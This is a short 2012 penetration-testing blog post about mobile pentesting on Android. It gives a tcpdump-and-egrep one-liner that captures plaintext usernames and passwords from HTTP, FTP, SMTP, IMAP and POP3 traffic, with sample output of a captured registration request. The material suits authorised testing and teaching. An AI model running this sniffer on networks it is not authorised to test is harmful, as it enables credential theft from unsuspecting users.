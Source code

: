 ```yaml
---
title: Quick and dirty tcpdump credential (username/password) sniffer
author: Jan Seidl
type: post
date: 2012-06-18T21:50:39+00:00
url: /posts/quick-and-dirty-tcpdump-credential-usernamepassword-sniffer/
categories:
  - Penetration Testing
tags:
  - android
  - arm
  - credential theft
  - dsniff
  - dug song
  - pentest
  - sniffing
  - tcpdump

---
```

I&#8217;ve been playing the last months with mobile pentesting within the Android platform. As I&#8217;ve been able to setup `tcpdump-arm` on my android phone, I began fooling around with it. I was trying to cross-compile Dug Song&#8217;s [dsniff][1] into `armle` architechture but it was only giving me headaches within the libnet/libnids dependencies and stuff.

So I wrote a quick one-liner to dump potential credentials (username/password) flowing in plaintext over the line:

{{< highlight bash >}}
tcpdump port http or port ftp or port smtp or port imap or port pop3 -l -A | egrep -i 'pass=|pwd=|log=|login=|user=|username=|pw=|passw=|passwd=|password=|pass:|user:|username:|password:|login:|pass |user ' --color=auto --line-buffered -B20
{{< /highlight >}}

And it works quite sufficiently:

{{< highlight http >}}
.{D.ezENPOST /users/register <acronym title="HyperText Transfer Protocol">HTTP</acronym>/1.1
Host: www.commandlinefu.com
...
Referer: http://www.commandlinefu.com/users/register
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 147

username=jseidl&password=MASKED&password-confirmation=MASKED&email-address=MASKED%MASKED.MASKEDhomepage=MASKED&submit=Sign+me+up
{{< /highlight >}}

Its not BY FAR efficient as dsniff, but can help out sometimes!

 [1]: http://monkey.org/~dugsong/dsniff/
